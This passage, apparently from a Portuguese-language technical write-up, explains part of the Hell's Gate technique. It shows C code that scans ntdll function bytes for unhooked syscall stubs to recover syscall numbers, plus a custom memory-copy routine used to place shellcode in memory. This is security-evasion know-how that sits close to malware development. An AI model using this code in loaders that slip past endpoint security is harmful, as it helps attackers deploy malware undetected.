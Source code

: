 ### GetVxTableEntry - Part 2

```c

			WORD cw = 0;
			while (TRUE) {
				if (*((PBYTE)pFunctionAddress + cw) == 0x0f && *((PBYTE)pFunctionAddress + cw + 1) == 0x05)
					return FALSE;

				if (*((PBYTE)pFunctionAddress + cw) == 0xc3)
					return FALSE;

				if (*((PBYTE)pFunctionAddress + cw) == 0x4c
					&& *((PBYTE)pFunctionAddress + 1 + cw) == 0x8b
					&& *((PBYTE)pFunctionAddress + 2 + cw) == 0xd1
					&& *((PBYTE)pFunctionAddress + 3 + cw) == 0xb8
					&& *((PBYTE)pFunctionAddress + 6 + cw) == 0x00
					&& *((PBYTE)pFunctionAddress + 7 + cw) == 0x00) {
					BYTE high = *((PBYTE)pFunctionAddress + 5 + cw);
					BYTE low = *((PBYTE)pFunctionAddress + 4 + cw);
					pVxTableEntry->wSystemCall = (high << 8) | low;
					break;
				}

				cw++;
			};
```

A segunda parte começa com um loop while após encontrar o endereço da syscall, `pFunctionAddress`. O loop while procura os bytes `0x4c, 0x8b, 0xd1, 0xb8`, que são opcodes para `mov r10, rcx e mov rcx, ssn`, que são o início de uma syscall unhookada.

No caso em que a syscall é hookada, os opcodes podem não corresponder devido ao fato de o hook ter sido adicionado por soluções de segurança antes da instrução `syscall`. Para resolver esse problema, o Hell's Gate tenta corresponder aos opcodes e, se não for encontrada nenhuma correspondência, a variável `cw` é incrementada, o que é adicionado ao endereço da syscall na iteração subsequente do loop. Essa progressão continua, descendo um byte de cada vez até que as instruções `mov r10, rcx` e `mov rcx, ssn` sejam alcançadas.



## VxMoveMemory

E no código também esta presente a função `VxMoveMemory` , que o seu objetivo é copiar um bloco de memória de um lugar x para o lugar y,  ela é semelhante em  à função `memcpy` da biblioteca C padrão, mas tem uma implementação personalizada para este código. A função é usada para copiar o shellcode na memória.

```c
PVOID VxMoveMemory(PVOID dest, const PVOID src, SIZE_T len) {
	char* d = dest;
	const char* s = src;
	if (d < s)
		while (len--)
			*d++ = *s++;
	else {
		char* lasts = s + (len - 1);
		char* lastd = d + (len - 1);
		while (len--)
			*lastd-- = *lasts--;
	}
	return dest;
}
```
